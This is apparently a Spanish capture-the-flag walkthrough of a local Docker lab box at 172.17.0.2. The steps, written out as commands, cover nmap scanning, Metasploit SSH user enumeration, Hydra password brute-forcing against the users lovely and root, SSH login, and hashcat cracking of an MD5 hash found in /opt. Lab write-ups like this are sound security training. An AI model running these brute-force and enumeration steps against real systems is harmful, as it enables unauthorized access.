 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh 
```

![Pasted image 20250130205609](https://github.com/user-attachments/assets/af261095-4475-4fba-be66-9763d5705f22)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250130205731](https://github.com/user-attachments/assets/deb0c2fd-3939-4853-94a8-a5e1197db29a)

Utilizamos **Metasploit** para buscar usuarios:

```
search ssh_enumusers
```

![Pasted image 20250131104151](https://github.com/user-attachments/assets/7134f0cc-fb7f-4bde-8aa8-d3eb885f9c22)

```
use auxiliary/scanner/ssh/ssh_enumusers
```

![Pasted image 20250131104431](https://github.com/user-attachments/assets/54aa9ee2-4bc8-43c2-9a8c-5263351c6577)

```
show options
```

![Pasted image 20250131104454](https://github.com/user-attachments/assets/b3025ead-e21e-4d95-b9c9-f3be363400c4)

```
set RHOSTS 172.17.0.2
```

![Pasted image 20250131104537](https://github.com/user-attachments/assets/cf34ce4c-cc36-4803-a7ef-a0b99c36c8a3)

```
set USER_FILE /usr/share/wordlists/rockyou.txt
```

![Pasted image 20250131104553](https://github.com/user-attachments/assets/dc0317f9-1f38-4286-86c9-fb53ca5dc107)

```
show options
```

![Pasted image 20250131104620](https://github.com/user-attachments/assets/371f6b94-3205-48e4-b95d-3d023c167469)

```
run
```

![Pasted image 20250131104734](https://github.com/user-attachments/assets/d83b9a9d-6306-48d0-87cc-829fe41489b5)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l lovely -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250130210723](https://github.com/user-attachments/assets/d80e509d-a42f-44c1-9d09-c8a70c17da22)

Nos conectamos con **SSH**:

```Bash
ssh lovely@172.17.0.2
```

![Pasted image 20250130211908](https://github.com/user-attachments/assets/b1cd994a-16bc-4090-a0e1-bb51e23adf13)

Buscamos archivos ocultos:

```Bash
cd /opt
```

![Pasted image 20250131101511](https://github.com/user-attachments/assets/3bdc329f-5a83-4ad0-8f9f-60c01696dcc2)

```Bash
ls -la
```

![Pasted image 20250131101531](https://github.com/user-attachments/assets/f5447675-7f03-4db2-8dcb-f6a6db0bf03c)

```Bash
cat .hash
```

![Pasted image 20250131101555](https://github.com/user-attachments/assets/c3690b83-342a-45d3-90bb-65e1f03fbb1d)

Encontramos un hash.

Utilizamos **hash-indentifier** para ver tipo de hash:

```Bash
hash-identifier aa87ddc5b4c24406d26ddad771ef44b0
```

![Pasted image 20250131102344](https://github.com/user-attachments/assets/e8f85091-e0ef-443b-b184-74cce072fbcc)

Utilizamos **hashcat** para crackear:

```Bash
nano hash.txt
```

![Pasted image 20250131101629](https://github.com/user-attachments/assets/172d1af1-bf37-46dd-bc56-5ca9c906fb0e)

```Bash
aa87ddc5b4c24406d26ddad771ef44b0
```

![Pasted image 20250131103229](https://github.com/user-attachments/assets/f6cdb786-8863-4f1a-8384-178092a23cb8)

```Bash
hashcat -a3 -m 0 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![Pasted image 20250131102956](https://github.com/user-attachments/assets/b7ce0526-44c2-4126-b6ba-83237dccaaf1)

![Pasted image 20250131102847](https://github.com/user-attachments/assets/2d7def86-33ab-4525-8d6b-62916a93c2d7)

Otra forma de tener la contraseña:

Fuerza Bruta con **Hydra**:

```Bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250130211807](https://github.com/user-attachments/assets/a0c46659-d0f6-4e17-bdb0-d9045bdfd8dc)

Nos conectamos con **SSH**:

```Bash
ssh root@172.17.0.2
```

![Pasted image 20250131103437](https://github.com/user-attachments/assets/6d5f7e0b-6a71-4a32-bfb2-54092165478b)

```Bash
whoami
```

![Pasted image 20250131103454](https://github.com/user-attachments/assets/c44ca49a-2fbc-4e6c-974d-d27f50b3ca0b)

